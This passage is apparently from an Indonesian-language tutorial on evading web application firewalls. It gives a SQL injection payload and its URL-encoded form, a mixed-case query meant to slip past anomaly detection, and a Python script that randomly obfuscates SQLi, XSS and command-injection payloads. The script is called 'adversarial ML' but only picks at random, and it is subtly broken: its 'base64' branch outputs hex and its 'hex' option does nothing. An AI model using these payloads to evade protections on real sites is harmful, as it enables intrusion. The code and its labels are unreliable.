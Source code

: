 Contoh Bypass:

Payload SQL Injection umum:
```
' OR 1=1 --
```
Payload setelah diobfuscate (URL encoding):
```
%27%20OR%201%3D1%20--
```

## 2. Anomaly-Based Detection

WAF jenis ini menggunakan Machine Learning dan analisis perilaku untuk mendeteksi aktivitas mencurigakan berdasarkan pola trafik.

Kelemahan:
✅ Rentan terhadap false positives dan bisa dibypass menggunakan adaptive payload mutation.

Contoh Bypass:

Menggunakan teknik randomization untuk mengubah pola serangan:
```
SeLeCt * FrOm users WhErE username='admin'
```
--


## 3. AI & Machine Learning-Based WAF

WAF modern menggunakan AI untuk menganalisis pola trafik dan membedakan antara trafik normal dan berbahaya.

Kelemahan:
✅ Bisa dieksploitasi dengan adversarial attacks dan stealth payloads.

Contoh Bypass:

**Menggunakan adversarial ML untuk membuat payload yang terlihat normal:**
```
import random
payloads = ["' OR 1=1 --", "<script>alert(1)</script>", "; ls -la"]
obfuscation_methods = ["url_encode", "base64", "hex"]

def obfuscate(payload, method):
    if method == "url_encode":
        return payload.replace(" ", "%20").replace("'", "%27")
    elif method == "base64":
        return payload.encode("utf-8").hex()
    return payload

selected_payload = random.choice(payloads)
selected_method = random.choice(obfuscation_methods)

bypass_payload = obfuscate(selected_payload, selected_method)
print(f"Generated Bypass Payload: {bypass_payload}")
```

---
